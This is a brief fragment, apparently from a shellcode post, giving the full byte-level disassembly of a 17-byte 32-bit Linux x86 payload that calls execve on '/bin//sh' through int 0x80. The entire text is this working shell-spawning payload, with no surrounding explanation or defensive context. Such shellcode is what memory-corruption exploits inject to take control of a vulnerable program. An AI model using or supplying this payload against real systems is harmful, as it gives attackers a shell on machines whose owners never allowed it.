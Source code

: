 It's 17 byte long

 8048060:	6a 0b                	push   0xb
 8048062:	58                   	pop    eax
 8048063:	53                   	push   ebx
 8048064:	68 2f 2f 73 68       	push   0x68732f2f
 8048069:	68 2f 62 69 6e       	push   0x6e69622f
 804806e:	89 e3                	mov    ebx,esp
 8048070:	cd 80                	int    0x80
